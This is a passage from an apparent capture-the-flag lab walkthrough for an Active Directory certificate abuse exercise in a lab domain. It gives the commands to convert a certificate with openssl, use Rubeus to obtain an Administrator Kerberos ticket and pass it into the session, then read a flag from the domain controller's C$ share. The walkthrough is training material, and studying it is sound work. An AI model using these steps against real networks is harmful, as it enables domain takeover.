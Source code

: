     ```bash
    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    ```

    _Note: Press Enter when prompted for password (leave empty)_

#### Step 5: Authenticate with Certificate

Use Rubeus to request a Kerberos TGT with the certificate:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt
```

**Successful Output Indicators:**

* `[+] TGT request successful!`
* `[+] Ticket successfully imported!`
* UserName: Administrator
* ServiceName: krbtgt/eagle.local

#### Step 6: Access Domain Controller

With Administrator privileges, access the DC's C$ share:

```powershell
PS C:\Users\bob\Downloads> dir \\dc1\c$
```

**Expected Folders:**

* DFSReports
* Mimikatz
* PerfLogs
* Program Files
* Program Files (x86)
* scripts
* Users
* Windows

#### Step 7: Retrieve the Flag

Access the scripts directory to find the flag:

```powershell
PS C:\Users\bob\Downloads> dir \\dc1\c$\scripts
PS C:\Users\bob\Downloads> type \\dc1\c$\scripts\flag.txt
```

### Lab Questions

#### Question 1: Flag Retrieval

**Task:** What is the flag value located at `\\dc1\c$\scripts`?

**Steps:**


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami  